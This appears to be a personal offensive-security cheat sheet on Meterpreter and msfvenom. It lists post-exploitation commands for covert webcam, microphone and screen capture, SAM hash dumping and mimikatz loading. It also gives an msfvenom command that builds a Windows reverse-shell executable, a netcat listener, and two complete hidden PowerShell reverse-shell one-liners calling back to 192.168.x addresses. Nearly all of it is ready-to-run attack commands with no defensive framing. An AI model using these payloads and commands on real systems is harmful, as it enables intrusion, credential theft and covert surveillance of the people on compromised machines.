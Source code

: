 			Meterpreter
### Webcam
- `record_mic`     Record audio from the default microphone for X seconds
- `webcam_chat`    Start a video chat
- `webcam_list`    List webcams
- `webcam_snap`    Take a snapshot from the specified webcam
- `webcam_stream`  Play a video stream from the specified webcam

### Misc

- `hashdump` will retrieve all hashed frm sam file
- `load kiwi` will in let us use mimikatz
- `screenshot` Grab a screenshot of the interactive desktop
- `shell`  get a shell on remote machine

# MSFvenoim
WINDOWS reverse shell
- get ip `ip a`
- `msfvenom -p windows/shell_reverse_tcp lhost=$IP lport=443 -f exe > shell.exe`
- `nc -lvnp 443`


# Netcat shell to Meterpreter
- `use multi/handler`
- 


powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.224",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/